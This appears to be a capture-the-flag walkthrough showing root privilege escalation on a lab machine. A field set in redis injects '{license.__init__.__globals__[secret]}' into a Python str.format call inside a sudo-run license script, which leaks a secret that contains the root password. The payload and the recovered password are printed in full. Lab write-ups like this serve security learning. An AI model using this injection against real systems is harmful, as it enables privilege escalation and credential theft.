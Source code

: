 `file /usr/bin/license`

```
/usr/bin/license: Python script, ASCII text executable
```

We can read the script: [license.py](license.py).

`sudo /usr/bin/license -p test`

```
Plaintext license key:
------------------------------------------------------
microblogtest'|*;BsA%&sJaJ81KL4%8{(U&n$a$uX%ctK2fh{=0testtest

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABkkfUwoteDzgaLd8-mOJm5xrLhLvEBjlBEKwAtF_qSw-vJNLy0B8wUeb_BcffTmcuTKgRMoAZWoTvxbc_yldDLzCwtbQalLXY1QdzhjBBnLyhiW22i4M7qbAWxVQJt6TMfjZxNuKG_ZbQNnx9oB_j5qauAaw==
```

Wrote [bruteforce_secret.py](bruteforce_secret.py) to try throwing rockyou.txt at it, but it didn't crack.

#

This line seems vulnerable to a format string injection:

```python
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

1. Inside redis run: `HSET test first-name {"license.__init__.__globals__[secret]}"`
2. Run: `sudo /usr/bin/license -p test`

```
Plaintext license key:
------------------------------------------------------
microblogtest2vUtjYfHe-@?AO;1HB/0a{Bf`P+b_Y#EG_x-(pQnCunCR4ckaBL3Pa$$w0rdtest
```

So let's try `su -` with **unCR4ckaBL3Pa$$w0rd** - works!

`root.txt: <redacted>`
